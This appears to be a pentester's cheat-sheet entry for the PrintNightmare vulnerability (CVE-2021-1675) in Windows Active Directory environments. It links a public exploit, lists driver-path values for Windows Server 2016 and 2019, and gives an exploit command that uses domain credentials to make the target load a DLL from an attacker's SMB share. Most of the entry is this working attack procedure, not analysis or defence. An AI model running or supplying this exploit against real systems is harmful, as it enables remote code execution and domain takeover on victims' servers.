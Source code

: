 
# PrintNightmare

% printerbug, Active directory
#plateform/linux  #target/remote #cat/ATTACK/COERCE 


## coerce
https://github.com/cube0x0/CVE-2021-1675

- windows server 2019
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
- windows server 2016          
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_db4f0d0030e708f4\\Amd64\\UNIDRV.DLL\x00"

Need a real smb server (not work with the impacket server)

```
CVE-2021-1675.py <domain_fqdn>/<user>:<password>@<target_ip> '\\<attacker_ip>\<share_name>\<dll_name|inject>.dll'
```